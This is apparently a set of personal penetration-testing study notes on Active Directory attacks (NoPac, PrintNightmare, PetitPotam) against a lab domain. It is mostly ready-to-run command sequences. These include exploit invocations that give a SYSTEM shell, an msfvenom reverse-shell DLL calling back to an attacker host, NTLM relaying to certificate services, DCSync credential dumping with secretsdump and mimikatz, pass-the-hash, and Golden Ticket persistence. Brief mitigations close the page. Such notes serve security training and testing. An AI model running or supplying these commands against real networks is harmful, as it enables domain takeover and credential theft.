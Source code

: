 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## NoPac (SamAccountName Spoofing) : Standard domain access
**CVEs**: 
- [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) : Bypass vulnerability with the Security Account Manager (SAM)
- [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287) : Vulnerability with the Kerberos Privilege Attribute Certificate (PAC) in ADDS
**Writeup**: 
- [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699)
- [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)
**Tool**: [noPac](https://github.com/Ridter/noPac) (includes a `scanner.py` and exploit `noPac.py`)

The idea is that you can change a computer account's SamAccountName to that of a DC. We can then request Kerberos tickets causing that service to issue tickets under the DC's name. This can give us SYSTEM shell access on the DC.

It relies on the `ms-DS-MachineAccountQuota` to not be `0` (*setting this to `0` can prevent a number of AD attacks*) as the user wouldn't be able to add new machine accounts.

```bash
sudo python3 scanner.py [domain]/[user]:[pass] -dc-ip [dc-ip] -use-ldap

sudo python3 noPac.py [domain]/[user]:[pass] -dc-ip [dc-ip] -dc-host [dc-name] -shell --impersonate administrator -use-ldap
```
> this can be very noisy and could be flagged by AV / EDR

This attack will leave the TGT on the attack host in the directory it was run. This `ccache` file could then be used for a [[Password Attacks#Pass-the-Hash|PtH]] or [[Abusing ACLs#DCSync|DCSync]] attack.
> We can use the `-dump` flag with noPac to a DCSync attack using [[Abusing ACLs#Using secretsdump.py|secretsdump.py]].

This tool makes use of `smbexec.py` (*from Impacket*) which can be quite noisy and easily detected by Windows Defender (*and other AVs*).

## PrintNightmare : Standard domain access
**CVEs**:
- [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) : Print spooler improperly performs privileged file operations, allowing RCE
- [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) : Not publicly disclosed - Allows RCE
**Tool**: [cube0x0's](https://twitter.com/cube0x0?lang=en)

There are a number of exploits out there that use the RCE vulnerabilities, [cube0x0's](https://twitter.com/cube0x0?lang=en) is a popular one.
> Annoyingly, [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit uses a modified version of Impacket. `github.com/cube0x0/impacket`.

```Bash
rpcdump.py @[dc-ip] | egrep 'MS-RPRN|MS-PAR'
```
Lets us determine if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

### Create a DLL payload with [[MSFVenom]]
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[ATK_host] LPORT=[ATK_port] -f dll > [filename].dll
```
> Make sure to start an MSF multi/handler
### Host the DLL in an SMB Server
```bash
sudo smbserver.py -smb2support [share_name] [path_to_dll]
```
### Exploit
```bash
sudo python3 CVE-2021-1675.py [domain]/[user]:[pass]@[dc-ip] '\\[ATK_host]\[share_name]\[filename].dll'
```

## PetitPotam (MS-EFSRPC) : Unauthenticated
**CVE**: 
- [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) : Unauthenticated attacker can coerce the DC to authenticate against another server (LSA Spoofing)
**Writeup**:
- https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/

By abusing the [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31), an unauthenticated attacker can force the DC to authenticate against another host using NTLM on port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc). This allows an attacker to take control of a domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use.

1. An authentication request from the targeted DC is relayed to the CA host's Web Enrolment page
2. The CA generates a Certificate Signing Request (CSR) for a new cert.
3. The cert can be used with tools like [[Rubeus]] or `gettgtpkinit.py` (*from [PKINITtools](https://github.com/dirkjanm/PKINITtools)*) to request a TGT for the DC
4. The TGT can then be used in a [[Abusing ACLs#DCSync|DCSync]] attack to compromise the domain

### Start an NTLM relay
The relay must point to the Web Enrolment URL for the CA host (*Can try [certi](https://github.com/zer1t0/certi) to locate it*) and it must use either the KerberosAuthentication or DomainController AD CS template.
```bash
sudo ntlmrelayx.py -debug -smb2support --target https://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

### Running PetitPotam.py
[PetitPotam.py](https://github.com/topotam/PetitPotam) will attempt to coerce the DC to authenticate to our host where our NTLM relay is running. This tool will attempt to coerce authentication via the [EfsRpcOpenFileRaw](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) method.
> There is a windows exe version, a PowerShell tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1) or Mimikatz can do it too `misc::efs /server:[dc-ip] /connect:[atk-ip]`

```bash
python3 PetitPotam.py [atk-ip] [dc-ip]
```

This will then cause the relay to request the CSR and the relay will return the base64 encoded cert.
```bash
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIS...CCJ8
```

### Requesting the TGT
We request the TGT and then tell Kerberos to use the ccache file so our attack host can use it for authentication.
```bash
python3 /opt/PKINITtools/gettgtpkinit.py [DOMAIN]/[DC-NAME]\$ -pfx-base64 [b64-cert] [outputfile].ccache

export KRB5CCNAME=[outputfile].ccache
```

### Using Domain Controller TGT to DCSync
This attempts to perform a DCSync attack against the administrator account for the DC by using the TGT we have collected. The tool will automatically collect the username (the machine account's name) from the ccache file so we don't have to specify it here.
```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Authenticate as Administrator using PtH
```bash
crackmapexec smb [dc-ip] -u administrator -H [NT-hash]
```

### ALTERNATIVE - TGT request and PtT attack with [[Rubeus]]
[[Rubeus]] lets us perform the entire process of requesting the TGT and performing a [[Password Attacks#Pass the Ticket with Rubeus|Pass the Ticket]] attack with the DC machine account
```PowerShell
.\Rubeus.exe asktgt /user:[DC-MACHINE-ACCOUNT] /certificate:[base64-cert] /ptt
```
We can then see all the tickets in memory with `klist`. Since the DC has replication privileges we can use the pass-the-ticket to perform a DCSync attack with [[Mimikatz]]. We could grab the NT hash for the KRBTGT account which would let us create a Golden Ticket and establish persistence.

**DCSync with [[Mimikatz]]**
```PowerShell
.\mimikatz.exe

lsadump::dcsync /user:[domain]\[target-user]
```

### Mitigations for PetitPotam
- Apply patches for [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) to any affected hosts
- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrolment and Certificate Enrolment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrolment and Certificate Enrolment Web Service services are in use
> This [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) demonstrates a number of attacks against AD CS that can be performed using authenticated API calls (*it also contains mitigations*). This demonstrates why its important to do other measures not just patching this one CVE.